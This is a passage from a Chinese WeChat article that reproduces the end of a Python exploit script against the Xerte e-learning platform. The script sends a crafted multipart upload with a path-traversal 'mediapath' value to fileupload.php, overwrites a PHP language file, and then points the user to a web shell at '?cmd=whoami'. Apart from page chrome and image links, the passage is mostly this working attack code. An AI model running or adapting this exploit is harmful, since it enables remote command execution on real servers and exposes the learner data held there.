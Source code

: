     define("INDEX_BUTTON_CANCEL", "Cancel");  
      
    define("INDEX_BUTTON_SAVE", "Save");  
      
    define("INDEX_XAPI_DASHBOARD_FROM", "From:");  
      
    define("INDEX_XAPI_DASHBOARD_UNTIL", "Until:");  
      
    define("INDEX_XAPI_DASHBOARD_GROUP_SELECT", "Select group:");  
      
    define("INDEX_XAPI_DASHBOARD_GROUP_ALL", "All groups");  
      
    define("INDEX_XAPI_DASHBOARD_SHOW_NAMES", "Show names and/or email addresses");  
      
    define("INDEX_XAPI_DASHBOARD_CLOSE", "Close dashboard");  
      
    define("INDEX_XAPI_DASHBOARD_DISPLAY_OPTIONS", "Display options");  
      
    define("INDEX_XAPI_DASHBOARD_SHOW_HIDE_COLUMNS", "Show / hide columns");  
      
    define("INDEX_XAPI_DASHBOARD_QUESTION_OVERVIEW", "Interaction overview");  
      
    define("INDEX_XAPI_DASHBOARD_PRINT", "Print");  
    \r  
    \r  
    -----------------------------170331411929658976061651588978  
    Content-Disposition: form-data; name="mediapath"  
      
    ''' \  
        + install_path \  
        + '''../../../languages/en-GB/  
    -----------------------------170331411929658976061651588978--\r  
    '''  
      
        # Overwrite index.inc file  
        response = session.post(xerte_base_url + '/website_code/php/import/fileupload.php', headers=headers, data=data)  
        print('Installation path: ' + install_path)  
        print(response.text)  
        if "success" in response.text:  
            print("Visit shell @: " + xerte_base_url + '/?cmd=whoami')  
                  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714175644.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714175645.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714175646.png)

后台回复“粉丝群”加入公众号粉丝群

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

